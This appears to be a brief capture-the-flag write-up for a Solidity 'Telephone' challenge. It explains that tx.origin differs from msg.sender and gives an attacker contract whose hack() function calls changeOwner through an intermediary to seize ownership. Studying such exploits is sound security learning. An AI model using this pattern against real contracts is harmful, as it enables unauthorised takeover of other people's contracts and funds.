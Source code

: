 `tx.origin` can be different than `msg.sender`. If contract A calls contract B, in B `msg.sender` is A but `tx.origin` is the original caller.

```
pragma solidity ^0.8.0;

contract Telephone {
    function changeOwner(address) public {}
}

contract BridgeTelephone {
    Telephone instance;

    constructor() {
        instance = Telephone(<contract instance>);
    }

    function hack() public {
        instance.changeOwner(<player address>);
    }
}
```
